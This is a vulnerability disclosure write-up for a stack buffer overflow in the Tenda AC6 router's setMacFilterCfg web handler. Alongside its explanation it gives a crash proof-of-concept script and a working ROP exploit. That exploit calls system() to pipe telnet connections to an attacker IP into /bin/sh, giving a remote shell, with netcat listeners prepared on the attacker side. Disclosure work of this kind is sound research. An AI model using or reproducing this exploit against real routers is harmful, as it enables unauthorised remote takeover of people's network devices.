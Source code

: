 # Stack-Based Buffer Overflow in Tenda AC6V1.0(firmware V15.03.05.19) setMacFilterCfg

## Summary
A stack-based buffer overflow vulnerability in the Tenda AC6V1.0 router (firmware V15.03.05.19) allows unauthenticated remote attackers to execute arbitrary code or cause denial of service (DoS) via the `deviceList` parameter in the `/goform/setMacFilterCfg` endpoint. The flaw resides in the `sub_BE73C` function (aliased as `parse_macfilter_rule`), which uses unsafe `strcpy` operations without bounds checking, enabling stack corruption.
![PoC 2 Result: Root Directory Listing](./imgs/0.png)
## Details
- **Vendor**: Tenda
- **Product**: Tenda AC6V1.0 
- **Firmware Version**: V15.03.05.19
- **Firmware Download**: [https://tenda.com.cn/material/show/2681](https://tenda.com.cn/material/show/2681)
- **Component**: `/goform/setMacFilterCfg` (functions `formSetMacFilterCfg` and `sub_BE73C`)
- **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)
- **CVE ID**: Pending
- **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Description
The vulnerability exists in the `formSetMacFilterCfg` function, which processes HTTP POST requests to `/goform/setMacFilterCfg`. The `deviceList` parameter is passed to `sub_BD758` and then to `sub_BE73C` (parse_macfilter_rule). The portion after `\r` is copied into a fixed-size buffer using `strcpy(a2, src)` without length validation. If the input exceeds the buffer size, it overflows the stack, potentially overwriting return addresses or other critical data.
![PoC 2 Result: Root Directory Listing](./imgs/1.png)
This allows attackers to:
- Cause a denial of service (DoS) by crashing the router.
- Achieve remote code execution (RCE) by crafting a payload with ROP gadgets.



## PoC: Python Exploit Script
```python
from pwn import *
import requests

payload = cyclic(1000)  # 1000-byte cyclic pattern to overflow buffer
url = "http://192.168.xxx.xxx/goform/setMacFilterCfg"
cookie = {"Cookie": "password=rfl1qw"}
data = {"macFilterType": "black", "deviceList": b"\r" + payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)  # Double POST to bypass potential checks
print(response.text)
```
![PoC 2 Result: Root Directory Listing](./imgs/2.png)

## exp
Open two terminals and execute nc -l 4444 and nc -l 5555 respectively. One is used for executing commands, and the other for echoing response. Then open a third terminal to run the exp：
```python
from pwn import *
import requests

url = "http://(target_ip)/goform/setMacFilterCfg"
libc_base=0xff58b000 #it will be diffirent
libc=ELF("/lib/libc.so.0") #your own path
print(hex(libc.sym['system']))
#print(hex(libc.sym['puts']))
system=libc_base+libc.sym["system"]
#puts = libc_base+libc.sym['puts']
mov_r0 = libc_base+0x00040cb8 # mov r0, sp; blx r3;
pop_r3 = libc_base+0x00018298 # pop {r3, pc};
#payload1 = cyclic(176)+p32(pop_r3)+p32(puts)+p32(mov_r0)+b"hacked by n0ps1ed\x00"
payload2 = cyclic(176)+p32(pop_r3)+p32(system)+p32(mov_r0)+b"telnet 192.168.xx.xxx 4444 | /bin/sh | telnet 192.168.xx.xxx 5555\x00"
cookie = {"Cookie": "password=rfl1qw"}
data = {"macFilterType": "black", "deviceList": b"\r" + payload2}
res = requests.post(url, cookies=cookie, data=data)
res = requests.post(url, cookies=cookie, data=data)
print(res.text)

```
![PoC 2 Result: Root Directory Listing](./imgs/3.png)

## Impact
- **Denial of Service (DoS)**: The oversized payload crashes the router’s web server, disrupting network connectivity and management access.
- **Remote Code Execution (RCE)**: With a crafted ROP chain, attackers can execute arbitrary commands.

